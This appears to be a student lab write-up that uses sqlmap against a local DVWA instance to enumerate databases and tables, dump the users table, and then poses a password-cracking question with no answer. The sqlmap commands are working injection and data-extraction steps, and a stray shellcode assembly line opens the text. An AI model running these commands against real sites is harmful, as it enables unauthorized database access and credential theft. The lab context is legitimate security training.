 ```nasm -f elf32 shellcode.asm -o shellcode.o```

Password: ```password```

![image](https://github.com/user-attachments/assets/f5747201-262f-44fe-9d1e-7a2387727741)

3.Install SQLMap in 

```wsl sudo apt install sqlmap```

4.Fetch the url of webiste you want to attack

![image](https://github.com/user-attachments/assets/ee5a374e-0809-42bd-ae52-3b43a2febadc)

Enter any value for this to retun a url :http://localhost/vulnerabilities/sqli/?id=1

5.Get information about all available databases

```sqlmap -u "http://localhost:8080/vulnerabilities/sqli" --cookie="PHPSESSID=l324b0sjbq4uo20kuc1s30s4p2; security=medium " --data="id=1&Submit=Submit" --dbs```
![image](https://github.com/user-attachments/assets/11946ebd-35e8-4cb1-94c2-bc56743ad03b)




**Question 2**: Use sqlmap to get tables, users information

**Answer 2**:
Choice Database is dvwa and Use sqlmap to get table
   
```sqlmap -u "http://localhost:8080/vulnerabilities/sqli" --cookie="PHPSESSID=l324b0sjbq4uo20kuc1s30s4p2; security=medium " --data="id=1&Submit=Submit" --batch -D dvwa --tables```
 ![image](https://github.com/user-attachments/assets/52c5896b-084e-48b7-99af-33855edff9fc)

 Choice Database is Users and use sqlmap to get users information
 
```sqlmap -u "http://localhost:8080/vulnerabilities/sqli" --cookie="PHPSESSID=l324b0sjbq4uo20kuc1s30s4p2; security=medium " --data="id=1&Submit=Submit" --batch -D dvwa -T users --dump```




**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit

**Answer 3**:



